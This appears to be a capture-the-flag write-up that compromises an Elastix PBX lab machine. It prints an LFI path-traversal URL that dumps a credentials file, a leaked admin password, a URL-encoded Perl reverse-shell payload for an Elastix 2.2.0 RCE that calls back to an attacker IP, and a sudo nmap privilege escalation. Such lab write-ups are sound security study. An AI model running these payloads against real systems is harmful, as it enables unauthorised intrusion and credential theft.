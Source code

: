 # Solution

As usual we start with a nmap scan to enumerate the services:
```
nmap -sC -sV -oN nmap-initial 10.10.10.7
```

A lot of services are exposed. I tried for quite a lot of time, then i looked on exploit db for "Elastix" and I found a file inclusion vulnerability. Using that vulnerability I could dump a file with users, passwords and configuration.  
Path for the config file: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

We managed to log in to the elastix page as admin with one of the passwords (jEhdIekWmdjE) that were present in the file.

We have to find a way in the underlying host.  In the tool toolbar there is the Asteriski CLI, we could use it to execute commands in the Linux machine. We tried but it doesn't work.


In the PBX tab we see that the extension 233 is active. Looking around in the web interface we also see that the Elastix version is 2.2.0.  
We look for an exploit in Exploit db and we found one related to our version. We take the exploit vector from the script, set the appropriate variables and the correct extension (233):
```
https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.13%3a4444%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A
```
We set up a netcat handler on port 4444,  we visit the url and we have a shell with user privileges. The user is "asterix" which is the owner of the elastix process.  

Visiting /home/fanis we have the first flag.  
Now we want to get root access to get the remaining flag.  


First we import a stable bash shell using python
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

We now run "sudo -l" to see which commands asterix can execute as sudo. Nmap is one of those.  
In GTFO bins we can see how we can priv escalate when nmap can be run as sudo:
```
sudo nmap --interactive  
!sh
```


